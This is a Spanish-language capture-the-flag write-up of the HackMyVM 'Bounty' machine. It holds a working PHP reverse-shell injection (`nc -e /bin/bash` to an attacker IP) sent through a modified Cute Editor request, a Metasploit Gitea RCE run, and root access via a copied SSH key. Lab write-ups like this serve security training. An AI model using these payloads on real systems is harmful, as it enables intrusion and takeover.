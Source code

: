 ```yaml
---
layout: post
title: Bounty - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/bounty/bounty.png#center)

## Reconocimiento

Lo primero, realizo un escaneo de los puertos abiertos en la máquina.

```
$ sudo nmap -p- 192.168.1.48 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 14:33 UTC
Nmap scan report for 192.168.1.48
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:67:D0:A4 (Oracle VirtualBox virtual NIC)
```

Utilizando curl para cargar la página principal del servidor, encuentro lo que parece un cronjob.

```
$ curl 192.168.1.48                             
* * * * * /usr/bin/php /var/www/html/document.html
```

Cada minuto se está utilizando PHP para ejecutar el código que haya en "document.html"

Tambien utilizo "nikto" para continuar con la enumeración.

```
nikto --host 192.168.1.48 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.48
+ Target Hostname:    192.168.1.48
+ Target Port:        80
+ Start Time:         2023-01-01 14:37:45 (GMT0)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0
+ Server leaks inodes via ETags, header found with file /, fields: 0x635104a1 0x33 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Multiple index files found: /index.html, /default.htm, /index.php
+ 7535 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2023-01-01 14:38:07 (GMT0) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Lo importante de aquí es el archivo de index llamado "default.htm". Al navegar a ese archivo, me encuentro con un programa llamado "Cute editor".

![img](/imgs/write-ups/hackmyvm/bounty/bounty_1.png#center)

## Explotación

Navego a "Demo > Edit Static HTML" y utilizando burpsuite, subo una reverse shell al servidor.

![img](/imgs/write-ups/hackmyvm/bounty/bounty_2.png#center)

Para subir la shell:

- Navego primero a "Edit Static HTML".
- Sin escribir nada, pulso guardar.
- Edito la petición en burpsuite para subir la shell.
- Creo un listener y espero la conexión.

Petición en burp modificada:

```
POST /Edithtml.php?postback=true HTTP/1.1
Host: 192.168.1.48
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://192.168.1.48
Connection: close
Referer: http://192.168.1.48/Edithtml.php
Cookie: PHPSESSID=91fdqufp9aq0pcn9baa7csv3pg
Upgrade-Insecure-Requests: 1

Editor1=<?php+system('nc+-e+/bin/bash+192.168.1.79+1234');?>&Editor1ClientState=&Save.x=9&Save.y=6&textbox1=%3C%3Fphp%2Bsystem%28%27nc+-e+%2Fbin%2Fbash+192.168.1.79+1234%27%29%3B%3F%3E++++++++++++
```

Al cabo de un minuto, obtengo una shell como Hania gracias al cronjob visto anteriormente.

```
nc -lnvp 1234            
Connection from 192.168.1.48:33668
hania@bounty:~$ :)
```

## Escalado de privilegios

Hania tiene permiso para ejecutar el binario Gitea que se encuentra en /home/primavera como el usuario Primavera.

```
hania@bounty:~$ sudo -l
Matching Defaults entries for hania on bounty:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hania may run the following commands on bounty:
    (primavera) NOPASSWD: /home/primavera/gitea \"\"
```

Tras ejecutarlo, se inicia un servicio de Gitea en el puerto 3000. Como se puede ver en la parte inferior izquierda del navegador, la versión de Gitea que se está ejecutando es la 1.16.6.

```
Impulsado por Gitea Versión: 1.16.6 Página: 0ms Plantilla: 0ms 
```
Para escalar privilegios, lo primero que hago es registrar un usuario nuevo en el servidor.

![img](/imgs/write-ups/hackmyvm/bounty/bounty_3.png#center)

Una vez creada la cuenta, utilizo metasploit para conseguir una sesión.

Es importante cambiar el target por defecto que tiene seleccionado metasploit a "Unix Command", ya que de otra forma no funcionará.

```
[...]
msf6 exploit(multi/http/gitea_git_fetch_rce) > set target Unix\ Command 
target => Unix Command
msf6 exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 192.168.1.79:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.1.79:8080/
[*] Command shell session 1 opened (192.168.1.79:4444 -> 192.168.1.48:47888) at 2023-01-01 15:04:58 +0000
[*] Server stopped.

whoami
primavera
```

Una vez siendo Primavera, encuentro un nota en su directorio home.

```
$ cat note.txt    
Im the shadow admin. Congrats.
```

Suponiendo que Primavera es "admin", pruebo copiando la clave privada (id_rsa) de Primavera a mi máquina y después intento logearme mediante ssh.

Para mi sorpresa, sí funciona.

```
ssh root@192.168.1.48 -i primavera_id_rsa
[...]
Last login: Thu Oct 20 11:55:16 2022
root@bounty:~# :)
```

Muchas gracias  **Sml** por esta máquina.

